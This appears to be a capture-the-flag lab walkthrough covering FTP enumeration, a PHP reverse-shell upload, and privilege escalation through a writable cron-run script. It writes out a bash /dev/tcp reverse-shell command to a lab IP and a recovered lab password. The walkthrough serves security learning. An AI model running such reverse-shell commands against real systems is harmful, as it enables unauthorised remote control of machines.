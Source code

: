 ```yaml
---
sticker: emoji//1f336-fe0f
---
```

# ENUMERATION



## OPEN PORTS

Let's begin with a simple Nmap scan:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023164431.png)

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023164907.png)

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023165101.png)

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023165247.png)
Let's try to change the hex for the file into a jpg, and try again:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023165422.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023165648.png)

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration
## FUZZING

Using FFUF to fuzz the website, I found this directory:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023164544.png)

Let's visit the website and try to enumerate it further: 

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023165753.png)
## SOURCE CODE

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023165822.png)
# EXPLOITATION


## FILES DIRECTORY

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023165853.png)

Seems like we could exploit the ftp to upload files into the server, we could try uploading a [[MOST COMMON REVERSE SHELLS|reverse shell]] for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023174700.png)

Nice, let's send the reverse shell and get our connection:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023174758.png)

Once I established the connection, I stabilized my shell using the [[STABLE SHELL|stable shell tricks]]

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023174947.png)

Nice, now we have an stable shell, let's get our flags and escalate privileges.


# PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023175629.png)

So, we got our first answer, let's try to read the home directory:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023175658.png)


If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023180403.png)

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023180944.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023180951.png)


Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023182634.png)

If we follow the stream, we are able to see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023182732.png)

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023182848.png)
We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from [[BASIC PRIVESC IN LINUX|linux privesc]]

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` 
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023183424.png)
I found a planner.sh and startup_list.txt, second file did not have anything useful, but first file, had this:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023183735.png)

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023184044.png)

And just like that, we finished the machine:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241023184153.png)

Gg!

